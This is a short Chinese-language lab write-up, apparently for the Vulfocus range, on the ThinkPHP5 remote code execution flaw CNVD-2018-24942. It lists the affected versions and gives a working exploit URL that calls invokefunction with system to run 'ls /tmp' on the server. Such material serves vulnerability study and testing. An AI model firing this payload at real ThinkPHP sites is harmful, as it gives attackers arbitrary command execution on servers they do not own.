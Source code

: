 # ThinkPHP5 远程代码执行漏洞（CNVD-2018-24942）by [hu4wufu](https://github.com/hu4wufu)

## 概述

ThinkPHP5 存在远程代码执行漏洞。该漏洞由于框架对控制器名未能进行足够的检测，攻击者利用该漏洞对目标网站进行远程命令执行攻击。

## 影响版本

上海顶想信息科技有限公司 ThinkPHP 5.*，<5.1.31

上海顶想信息科技有限公司 ThinkPHP <=5.0.23

## 漏洞复现

1、打开靶场，开启此漏洞对应靶场环境： thinkphp5x 任意代码执行漏洞 (cnvd-2018-24942)![1](./1.png)

2、直接在目录后面增加路径与参数即可

```
/index.php/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=ls /tmp

```

![2](./2.png)

## 参考链接

https://github.com/fofapro/vulfocus/blob/master/writeup/CNVD-2018-24942/CNVD-2018-24942.md

